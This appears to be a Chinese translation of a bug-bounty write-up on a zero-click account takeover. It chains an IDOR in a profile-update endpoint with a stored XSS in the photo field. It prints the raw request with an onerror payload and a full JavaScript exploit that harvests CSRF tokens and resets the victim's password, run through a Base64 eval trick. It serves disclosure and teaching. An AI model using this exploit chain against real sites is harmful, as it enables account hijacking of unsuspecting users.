




# 零点击账户接管(IDOR + XSS)

> 原文：<https://infosecwriteups.com/zero-click-to-account-takeover-idor-xss-98dd6cce63c4?source=collection_archive---------0----------------------->

亲爱的朋友们，您好，这篇文章是关于我对 BugCrowd 程序的一个发现，该程序导致攻击者使用 IDOR 在受害者个人资料上注入 XSS 有效载荷，并发送更新密码功能的请求，直到更改受害者的密码。



侦查是虫子赏金最重要的部分。你花多少时间侦察，你就有更多的机会找到关键的漏洞。易受攻击的域名被该公司收购，我使用了 [Crunchbase](http://crunchbase.com/) 和 Google Dork 来了解。我在这个新资产上发现了 2 个 P1、1 个 P2 和 2 个 P3。

IDOR 是更新配置文件上最简单的 IDOR 类型，攻击者能够通过更改**数据[用户][id]** 值参数来更新其他用户配置文件。



当我发现这个漏洞，决定升级漏洞，用另一个东西编译。我意识到数据[用户][照片]反映在**img**标签的 src 中。在一个镜头中，我意识到能够关闭 IMG 标签的 src 值，但是无法关闭 img 标签。我使用 onerror 事件处理程序在受害者帐户上执行 Javascript。

```
POST /users/update_my_profile HTTP/1.1
Host: [www.target.com](http://www.target.com)... _method=POST&data[_Token][key]=6e8b90f4e7d7c694735d4f1c83db5968bf295f26&data[User][id]=808265&data[User][photo]=https://s3-us-west-2.amazonaws.com/target/nonexistent.png"+onerror=alert(origin)&data[User][photo_old]=&data[User][name]=Arman.Security&data[User][gender]=m&data[date][day]=&data[date][month]=&data[date][year]=&data[User][mobile_number]=&data[_Token][fields]=fa628e2b05473ddd3cbbee31d2d9c311eba4c9d5%3A&data[_Token][unlocked]=
```

这个回报是这样的:



现在我们有一个 IDOR 和 XSS，现在时间使用 XSS 帐户接管或访问受害者帐户的私人信息。

该网站在 Cookie 基础上工作，每个请求有 2 个验证令牌，其中一个是稳定的，另一个可根据每个功能进行更改。重要的是忽略旧密码来更新密码:)

我不得不编写一个漏洞，引导我收集所有受害者令牌，并在更新密码函数上测试可变令牌的所有模式。

这就是漏洞代码:

```
url = "https://www.target.com/editar-mi-contrasena";var token_keys_array = [];var token_fields_array = [];var params = [];var body = "";var xhr = new XMLHttpRequest();xhr.responseType = "document";xhr.open("GET", url, true);xhr.withCredentials = true;var xmlHttpRequest2 = new XMLHttpRequest();xmlHttpRequest2.open("POST", "https://www.target.com/editar-mi-contrasena", true);xmlHttpRequest2.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8");xmlHttpRequest2.setRequestHeader("Referer", "https://www.target.com/editar-mi-contrasena");xmlHttpRequest2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");xmlHttpRequest2.setRequestHeader("Upgrade-Insecure-Requests", "1");xmlHttpRequest2.setRequestHeader("Sec-Fetch-Mode", "navigate");xmlHttpRequest2.setRequestHeader("Sec-Fetch-Dest", "document");xmlHttpRequest2.setRequestHeader("Sec-Fetch-User", "?1");xmlHttpRequest2.withCredentials = true;xmlHttpRequest2.onreadystatechange = function () {if (this.readyState == 4 && this.status == 302) {print("response=" + this.responseText);print("done");};};xhr.onreadystatechange = function() {if (xhr.readyState == 4){xhr.response.querySelectorAll("input[name='data[_Token][key]']").forEach( input => {token_keys_array.push(input.value)});xhr.response.querySelectorAll("input[name='data[_Token][fields]']").forEach( input => {token_fields_array.push(input.value)});for (let b = 0; b < token_fields_array.length; b++) {if (b == 2){body = "_method=POST&data%5B_Token%5D%5Bkey%5D="+token_keys_array[0]+"&data%5BUser%5D%5Bpassword%5D=EvilOrAngel&data%5BUser%5D%5Bpassword_confirmation%5D=EvilOrAngel&data%5B_Token%5D%5Bfields%5D="+encodeURIComponent(token_fields_array[b])+"&data%5B_Token%5D%5Bunlocked%5D=";xmlHttpRequest2.send(body);};};};};xhr.send();
```

将漏洞代码转换为 Base64 编码，然后设置 img 标签的 id 值，并通过**on error = eval(atob(this . id))**执行它。大概是这样的:

```
">
```

现在 IDOR 帮助在受害者帐户上存储 XSS 有效载荷，然后利用帮助我们接管受害者帐户。轻松男孩😎



[推特](https://twitter.com/m7arm4n)🐦